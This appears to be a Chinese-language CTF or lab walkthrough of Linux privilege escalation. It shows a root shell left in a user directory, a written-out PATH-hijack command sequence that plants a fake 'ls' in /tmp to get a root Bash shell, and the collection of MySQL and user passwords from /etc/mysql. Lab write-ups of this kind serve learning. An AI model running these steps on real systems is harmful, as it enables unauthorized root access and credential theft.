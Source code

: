 发现有mysql账户 还有八个用户

![image.png](https://s2.loli.net/2025/04/30/U7urde82PntGsjA.png)

找到两个在home目录下的脚本 从这两个下手

![image.png](https://s2.loli.net/2025/04/30/RynINW9BugmiFqh.png)

### 1. user6 shell提权
在目录中找到shell 运行就能获得root权限
![image.png](https://s2.loli.net/2025/04/30/6m7aHEIC4Pls8Zj.png)

### 2.  user5环境变量提权
在user5的目录中有个script 也就是上面有的文件

我们用strings分析一下这个文件 看有什么信息吗  看不太懂 问了ai 感觉没啥头绪 看了大佬wp发现是环境变量的提权

```
cd /tmp
echo "/bin/bash" > ls
# 创建名为 `ls` 的文件，内容为 `/bin/bash`。​**​核心目的​**​是覆盖系统默认的 `ls` 命令，将其替换为启动 Bash Shell 的恶意脚本

chmod 777 ls
echo $PATH
export PATH=/tmp:$PATH
cd /home/user5
./script
whoami

```

![image.png](https://s2.loli.net/2025/04/30/lxvLWO72rS1wac3.png)


![image.png](https://s2.loli.net/2025/04/30/Z9UBLz87PFAsauo.png)


###  3. mysql数据
#注意 mysql的路径 /var/www/html里面没有找到的话 去/etc/里面找找看有mysql的文件夹吗

![image.png](https://s2.loli.net/2025/04/30/7RWDTqJ4ri981Sz.png)

用这个账户密码登录 能找到账户密码

![image.png](https://s2.loli.net/2025/04/30/VaFL7uv35kygWnM.png)

![image.png](https://s2.loli.net/2025/04/30/gjkR6mOsloScDre.png)

成功登录到mysql账户

在/etc/mysql中能找到所有用户的密码

![image.png](https://s2.loli.net/2025/04/30/M4cItTQED61xAfX.png)
